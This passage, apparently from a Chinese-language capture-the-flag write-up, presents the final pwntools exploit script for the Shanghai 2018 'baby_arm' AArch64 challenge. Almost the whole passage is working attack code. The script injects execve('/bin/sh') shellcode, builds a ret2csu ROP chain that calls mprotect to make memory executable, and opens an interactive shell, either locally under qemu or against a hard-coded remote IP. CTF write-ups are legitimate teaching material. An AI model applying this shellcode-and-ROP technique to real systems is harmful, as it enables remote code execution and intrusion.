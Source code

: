 最終的 [exp](https://github.com/bash-c/pwn_repo/blob/master/Shanghai2018_baby_arm/solve.py) 如下：
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"

if sys.argv[1] == "l":
    io = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
elif sys.argv[1] == "d":
    io = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    io = remote("106.75.126.171", 33865)

def csu_rop(call, x0, x1, x2):
    payload = flat(0x4008CC, '00000000', 0x4008ac, 0, 1, call)
    payload += flat(x2, x1, x0)
    payload += '22222222'
    return payload


if __name__ == "__main__":
    elf = ELF("./pwn", checksec = False)
    padding = asm('mov x0, x0')

    sc = asm(shellcraft.execve("/bin/sh"))
    #  print disasm(padding * 0x10 + sc)
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    #  io.send(cyclic(length = 500, n = 8))
    #  rop = flat()
    payload = flat(cyclic(72), csu_rop(elf.got['read'], 0, elf.got['__gmon_start__'], 8))
    payload += flat(0x400824)
    io.send(payload)
    sleep(0.01)
    io.send(flat(elf.plt['mprotect']))
    sleep(0.01)

    raw_input("DEBUG: ")
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    payload = flat(cyclic(72), csu_rop(elf.got['__gmon_start__'], 0x411000, 0x1000, 7))
    payload += flat(0x411068)
    sleep(0.01)
    io.send(payload)

    io.interactive()
```
